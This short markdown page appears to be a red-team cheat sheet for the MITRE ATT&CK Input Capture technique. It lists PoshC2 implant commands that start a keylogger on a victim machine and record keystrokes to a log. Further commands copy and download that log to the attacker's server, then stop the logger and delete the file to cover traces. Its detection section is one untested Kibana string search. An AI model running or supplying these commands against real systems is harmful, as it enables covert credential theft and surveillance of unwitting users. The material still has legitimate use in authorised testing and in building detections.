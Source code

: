 # [Input Capture](https://attack.mitre.org/techniques/T1056/)

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).

---

## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes 
##Starts the Keylogger(realtime on poshc2 Server)

start-keystrokes-writefile 
##record this filelocation(.log) this in on victim box

### Keylogger is now running until Stopped ### Typically used if keylogger is being ran over a set time"


copy "fileLocation(.log)" "Sameplace newname(.log)"
#make a copy to download after the logger has been running
## you cant download the original filelocation if the implant is still up. will get file in use error

Download-file "path of newname.log" 
## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes 
##Stop keylogger for cleanup

posh-delete "path of newname.log"
##Cleaning up file created

##you cant delete the original filelocation if the implant is still up. will get file in use error.
```
---

## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”) --- NOT TESTED IN KIBANA
* Detection has not been found